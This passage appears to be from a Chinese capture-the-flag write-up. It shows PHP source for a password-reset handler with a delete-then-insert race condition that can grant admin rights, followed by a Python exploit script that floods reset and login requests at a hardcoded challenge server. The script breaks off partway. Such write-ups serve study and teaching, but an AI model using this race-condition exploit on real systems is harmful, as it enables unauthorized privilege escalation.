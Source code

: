 ```php
}
$user="";
// 初次访问生成用户
if(!isset($_SESSION["name"])){
    $user=substr(md5(uniqid().uniqid()),8,16);
    $_SESSION["name"]=$user;
    $stmt = $mysqli->prepare("INSERT INTO gctf09.`user` (name,pass) VALUES (?,?)");
    $stmt->bind_param("ss",$user,md5($user));
    $stmt->execute();
    $stmt->close();
    $stmt = $mysqli->prepare("INSERT INTO gctf09.`priv` (name,notadmin) VALUES (?,TRUE)");
    $stmt->bind_param("s",$user);
    $stmt->execute();
    $stmt->close();
}else{
    $user=$_SESSION["name"];
}
//重置时清理用户信息
if($_SERVER["REQUEST_METHOD"] === "POST" && $_GET['method']==="reset" && isset($_POST['password']) ){
    $stmt = $mysqli->prepare("DELETE FROM gctf09.`user` where name=?");
    $stmt->bind_param("s",$user);
    $stmt->execute();
    $stmt = $mysqli->prepare("DELETE FROM gctf09.`priv` where name=?");
    $stmt->bind_param("s",$user);
    $stmt->execute();
    $stmt = $mysqli->prepare("INSERT INTO gctf09.`user` (name,pass) VALUES (?,?)");
    $stmt->bind_param("ss",$user,md5($_POST['password']));
    $stmt->execute();
    $stmt->close();
    //判断用户权限时会查询priv表，如果为不为TRUE则是管理员权限
    $stmt = $mysqli->prepare("INSERT INTO gctf09.`priv` (name,notadmin) VALUES (?,TRUE)");
    $stmt->bind_param("s",$user);
    $stmt->execute();
    $stmt->close();
    $mysqli->close();
    die("修改成功");
}
$mysqli->close();
?>
```

在重置用户的时候，用户表中的相应记录是先删除后添加，于是产生条件竞争，只要打好这个时间差就好。

```python
import thread
import requests
import time

def register(i):
    print 'Register Thread', i, ' Start'
    param = {'method': 'reset'}
    payload = {'name': '9ee1bb39dceeece1', 'password': 'as9en'}
    cookies = {'PHPSESSID': 'jk4f54scqb3uroubqi87tfoaq7'}
    r = requests.post('http://218.2.197.242:18009/', params = param, \
        data = payload, cookies = cookies)
    print r.text

def getflag(i):
    print 'GetFlag Thread', i, ' Start'
    param = {'method': 'login'}
    payload = {'name': '9ee1bb39dceeece1', 'password': 'as9en'}
    cookies = {'PHPSESSID': 'jk4f54scqb3uroubqi87tfoaq7'}
    r = requests.post('http://218.2.197.242:18009/login.php', params = param, \
```